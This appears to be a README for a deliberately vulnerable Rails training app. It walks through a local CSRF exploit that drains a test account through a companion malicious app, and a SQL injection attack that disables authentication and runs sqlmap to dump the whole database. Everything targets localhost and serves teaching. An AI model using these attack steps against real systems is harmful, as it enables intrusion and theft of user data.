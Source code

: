 Based on https://github.com/andersonDadario/damn_vulnerable_rails_app/tree/master/vulnerable_app

### Setup 

1. Install MySQL Server
2. Configure mysql credentials on `vulnerable_app/config/database.yml`
3. Run `cd vulnerable_app && bundle exec rake db:create`
4. Run `cd vulnerable_app && bundle exec rake db:schema:load`
5. Start Malicious App by running `./servlet.rb`
6. Start Vulnerable App by running `rails s`
7. Sign up to Vulnerable App

### CSRF

1. Add money to your account (any mount greater than 0)
2. Go to Malicious App (http://localhost:4000)
3. Insert the following URL in the form: `http://127.0.0.1:3000/exploit?url=http%3A%2F%2Flocalhost%3A3000%2Fcharity` and submit it
4. Reload the Vulnerable app page and you should see $0 money

### SQL Injection

1. Comment `before_action :authenticate_user!` on `vulnerable_app/app/controllers/application_controller.erb`
2. Restart Vulnerable App by pressing `CTRL+C` and running `rails s` again
3. Install SQLMap (sqlmap.org)
4. Run `./sqlmap.py -u "http://localhost:3000/discover?email=something" -p email --dbms=mysql -a` and await for pwnage!

